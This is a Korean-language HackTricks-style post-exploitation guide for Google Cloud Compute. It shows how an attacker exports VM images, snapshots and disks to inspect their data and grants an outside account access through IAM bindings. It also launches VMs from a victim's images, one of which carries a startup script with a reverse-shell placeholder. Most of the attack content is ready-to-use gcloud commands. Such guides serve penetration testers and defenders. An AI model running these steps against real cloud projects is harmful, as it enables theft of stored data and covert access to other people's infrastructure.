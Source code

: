 # GCP - 컴퓨트 후 포스트 익스플로잇레이션

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)를 통해 제로부터 영웅이 될 때까지 AWS 해킹을 배우세요</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사가 HackTricks에 광고되길 원하거나** **PDF 형식의 HackTricks를 다운로드하길 원한다면** [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구매하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 저희의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* **💬 [디스코드 그룹](https://discord.gg/hRep4RUj7f)** 또는 [텔레그램 그룹](https://t.me/peass)에 **가입**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우**하세요.
* **해킹 트릭을 공유하려면 PR을 제출하여** [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 제출하세요.

</details>

## 컴퓨트

컴퓨트 및 VPC(네트워킹)에 대한 자세한 정보는 다음을 확인하세요:

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### 이미지 로컬로 내보내고 검사하기

이를 통해 공격자는 이미 존재하는 이미지 내부에 포함된 데이터에 액세스하거나 실행 중인 VM의 새 이미지를 만들어 데이터에 액세스할 수 있습니다.

VM 이미지를 버킷에 내보내고 다운로드하여 다음 명령을 사용하여 로컬로 마운트할 수 있습니다:

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

이 작업을 수행하기 위해 공격자는 저장 버킷에 대한 권한과 확실히 **cloudbuild에 대한 권한**이 필요할 수 있습니다. 왜냐하면 이 **서비스**가 내보내기를 수행하도록 요청될 것이기 때문입니다. 더불어, 이 작업이 작동하려면 codebuild SA 및 compute SA에 권한이 필요합니다.\
cloudbuild SA `<project-id>@cloudbuild.gserviceaccount.com`에는 다음이 필요합니다:

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

그리고 SA `<project-id>-compute@developer.gserviceaccount.com`에는 다음이 필요합니다:

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### 스냅샷 및 디스크 로컬로 내보내고 검사하기

스냅샷 및 디스크를 직접 내보내는 것은 불가능하지만 **스냅샷을 디스크로, 디스크를 이미지로 변환**하고 **이전 섹션**을 따라 해당 이미지를 내보내어 로컬에서 검사할 수 있습니다.

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### 이미지 검사 및 VM 생성

**이미지에 저장된 데이터** 또는 **실행 중인 VM** 내부에 액세스하는 것을 목표로 공격자가 **이미지를 생성한** 위치에서 외부 계정에 이미지 액세스 권한을 부여할 수 있습니다:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
그런 다음 해당 이미지에서 새 VM을 생성하십시오:
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
만약 이미지를 통해 외부 계정 액세스를 제공할 수 없는 경우, 피해자 프로젝트에서 해당 이미지를 사용하여 VM을 시작하고 메타데이터를 실행하여 이미지에 액세스하여 역쉘을 실행할 수 있습니다. 다음 매개변수를 추가하십시오:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### 스냅샷/디스크 검사 및 VM에 연결

**디스크나 스냅샷에 저장된 데이터에 액세스하기 위해, 스냅샷을 디스크로 변환하거나 디스크를 이미지로 변환한 다음 이전 단계를 따를 수 있습니다.**

또는 **외부 계정에 디스크에 대한 액세스 권한을 부여**할 수 있습니다 (시작점이 스냅샷인 경우 스냅샷에 대한 액세스를 부여하거나 해당 스냅샷에서 디스크를 생성합니다):
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**인스턴스에 디스크를 연결**하세요:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
VM 내부에 디스크를 마운트하십시오:

1. **VM에 SSH로 로그인**:

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```
2. **디스크 식별**: VM 내부에 들어간 후, 디스크 장치를 나열하여 새로운 디스크를 식별합니다. 일반적으로 `/dev/sdb`, `/dev/sdc` 등으로 찾을 수 있습니다.
3. **디스크 포맷 및 마운트** (새로운 또는 원시 디스크인 경우):
*   마운트 지점 생성:

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```
*   디스크 마운트:

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

스냅샷 또는 디스크에 외부 프로젝트에 액세스 권한을 부여할 수 없는 경우, 스냅샷/디스크가 있는 프로젝트 내의 인스턴스에서 이러한 작업을 수행해야 할 수 있습니다.
